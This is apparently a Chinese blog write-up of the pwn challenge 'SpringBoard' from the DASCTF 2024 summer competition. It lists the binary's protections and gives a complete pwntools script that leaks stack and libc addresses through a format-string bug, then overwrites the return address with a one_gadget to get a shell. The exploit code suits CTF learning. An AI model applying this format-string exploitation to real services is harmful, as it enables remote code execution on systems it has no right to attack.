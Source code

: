 ```yaml
---
title: DASCTF 2024暑期挑战赛 - SpringBoard 
date: 2024/7/28 14:10:00
updated: 2024/7/28 14:10:00
tags:
    - noob
excerpt: 通过格式化字符串漏洞，利用libc泄露和oneGadget实现远程代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.23-0ubuntu11.3|

## 解题思路

{% note green fa-heart %}
感谢 *N0wayBack* 的脚本用以复现
{% endnote %}

简单的格式化字符串，可以执行5次漏洞，直接把函数返回地址写成oneGadget就可以

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './SpringBoard'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')

    # payload 1, leak libc and stack
    sh.sendlineafter(b'keyword', b'FLAG%6$pFLAG%9$p')
    sh.recvuntil(b'FLAG')
    stack = int(sh.recv(14), 16) - 0xd8
    success(GOLD_TEXT(f'Leak retStackAddr: {stack:#x}'))
    sh.recvuntil(b'FLAG')
    libcBase = int(sh.recv(14), 16) - 240 - libc.symbols['__libc_start_main']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))

    # payload 2-5, write one gadget on ret addr
    oneGadget = 0xf1247
    ogg = libcBase + oneGadget
    sh.sendlineafter(b'keyword', f'%{stack & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{ogg & 0xffff}c%37$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(stack + 2) & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(ogg >> 16) & 0xff}c%37$hhn'.encode())

    sh.clean()
    sh.interactive()
```

{% folding purple::... %}
~~非预期秒了~~

<img src="/assets/dasjuly2024/unexpected.png" width="50%" height="50%">
{% endfolding %}

